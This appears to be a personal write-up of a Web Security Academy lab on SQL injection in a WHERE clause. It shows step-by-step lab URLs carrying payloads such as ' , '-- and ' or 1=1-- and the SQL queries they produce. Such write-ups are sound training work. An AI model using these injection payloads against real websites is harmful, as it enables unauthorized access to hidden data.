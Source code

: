 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## SELECT \* FROM products WHERE category = 'Gifts' AND released = 1

## SELECT \* FROM products WHERE category = 'Pets' AND released = 1

## To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter

### step1

### https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category=Pets

### step2

### https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='

### step3

### https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='--

### step4

### https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='or1=1--

or

### https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='+or+1=1--

> notes => https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='
> the above example will passed into database

```sql
 SELECT * FROM products WHERE category = ''' AND released = 1
```

> https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='--

```sql
SELECT * FROM products WHERE category = ''--' AND released = 1
```

> https://0a0700ad03ead4f6c19417ec006e0036.web-security-academy.net/filter?category='or1=1--

```sql
SELECT * FROM products WHERE category = ''or1=1--' AND released = 1
```
